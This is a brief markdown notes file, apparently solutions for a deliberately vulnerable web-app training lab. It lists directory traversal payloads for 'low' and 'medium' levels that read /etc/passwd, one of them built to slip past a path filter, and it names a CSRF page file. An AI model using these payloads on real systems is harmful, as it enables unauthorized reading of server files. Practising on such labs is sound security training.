 # Directory Travesal

Payload:

* Level Low:

../../../../../../etc/passwd

* Level Medium:

..././..././..././..././..././..././..././..././etc/passwd

# CSRF

* Level low:

csrf-low.html
